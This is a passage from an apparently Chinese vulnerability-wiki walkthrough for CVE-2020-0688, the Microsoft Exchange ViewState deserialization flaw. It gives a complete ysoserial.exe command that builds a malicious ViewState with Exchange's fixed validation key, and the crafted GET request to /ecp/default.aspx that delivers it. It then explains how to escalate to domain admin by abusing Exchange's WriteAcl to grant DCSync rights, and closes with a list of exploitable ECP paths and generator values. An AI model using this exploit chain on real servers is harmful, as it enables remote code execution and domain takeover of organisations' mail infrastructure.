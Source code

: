 `__VIEWSTATEGENERATOR`在`/ecp/default.aspx`的前端页面里面直接获取：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId25.png)

当拥有了`validationkey`,`validationalg`,`viewstateuserkey`,`__VIEWSTATEGENERATOR`，使用YSoSerial.net生成序列化后的恶意的ViewState数据：

    ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="2fdc8b0d-dcfb-4d0a-b464-95b9a2dcc968" --isdebug –-islegacy

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId26.png)

构造以下URL，使用生成的payload替换，使用上面所说的value值替换，最后用GET请求发送给服务器即可。

    http://www.0-sec.org/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId27.png)

收到dns请求

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId28.png)

由于Exchange
Server的机器用户具备SYSTEM权限，默认在域内拥有WriteAcl的权限，因此，可以通过修改ACL的`DS-Replication-Get-Changes`和`DS-Replication-Get-Changes-All`来赋予任何一个用户Dcsync的权限，所以这个漏洞的最大危害在于：在域内拥有一个普通用户权限的情况下，通过Exchange
Server上以system用户的身份执行任意的命令，再利用Exchange
Server的WriteAcl权限，从而达到域管权限。

### 附录

经过简单测试，已知可利用路径：

    /ecp/default.aspx
    __VIEWSTATEGENERATOR=B97B4E27

    /ecp/PersonalSettings/HomePage.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=1D01FD4E

    /ecp/PersonalSettings/HomePage.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=1D01FD4E

    /ecp/Organize/AutomaticReplies.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/RulesEditor/InboxRules.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/Organize/DeliveryReports.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/MyGroups/PersonalGroups.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=A767F62B

    /ecp/MyGroups/ViewDistributionGroup.aspx?pwmcid=1&id=38f4bec5-704f-4272-a654-95d53150e2ae&ReturnObjectType=1
    __VIEWSTATEGENERATOR=321473B8
